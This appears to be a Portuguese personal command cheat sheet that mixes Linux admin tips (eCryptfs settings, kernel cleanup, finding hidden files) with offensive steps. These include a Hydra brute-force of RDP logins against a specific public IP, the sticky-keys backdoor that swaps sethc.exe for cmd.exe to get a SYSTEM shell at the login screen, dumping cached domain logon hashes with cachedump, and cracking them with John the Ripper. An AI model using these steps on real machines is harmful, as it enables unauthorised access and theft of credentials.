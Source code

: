     cat /root/.ecryptfs/sig-cache.txt
    0def15b393ec41c6

    cat /root/.ecryptfsrc
    ecryptfs_unlink_sigs
    ecryptfs_fnek_sig=0def15b393ec41c6
    ecryptfs_key_bytes=24
    ecryptfs_cipher=aes
    ecryptfs_sig=0def15b393ec41c6
    ecryptfs_passthrough=n

- no fstab
    diretorio diretorio ecryptfs rw,ecryptfs_unlink_sigs,ecryptfs_fnek_sig=0def15b393ec41c6,ecryptfs_sig=0def15b393ec41c6,ecryptfs_cipher=aes,ecryptfs_key_bytes=24,user,noauto 0 0

## -C comboa file: user:pass -t qtde de threads -W 1 agiarda 1min -V mostra tentativas
    hydra -C projectus1.hydra 200.213.192.2 rdp -t 1 -W 1 -V

## para alterar o background

    update-alternatives --install /usr/share/images/desktop-base/desktop-background desktop-background /usr/share/images/desktop-base/Quantum.jpg 30

## find arquivos ocultos
    find -name \.\*

## Remover kernels antigos
    dpkg -l 'linux-*' | sed '/^ii/!d;/'"$(uname -r | sed "s/\(.*\)-\([^0-9]\+\)/\1/")"'/d;s/^[^ ]* [^ ]* \([^ ]*\).*/\1/;/[0-9]/!d' | xargs sudo apt-get -y purge

## dump de hashs de logon de domínios

- para rodar um cmd como administrador

- renomeie o arquivo:
    %:\Windows\System32\sethc.exe para sethc.old

- copie o arquivo cmd.exe com nome sethc.exe
    cp Windows\System32\cmd.exe Windows\System32\sethc.exe

- boot windows

Para acessar basta iniciar o windows e segurar o shift do lado direito por 8 segundos!!!

com o cmd rodando vamos usar o cachedump.exe

    cachedump.exe -v > mscach

## no john

    ./john arquivo mscash --format=mscash
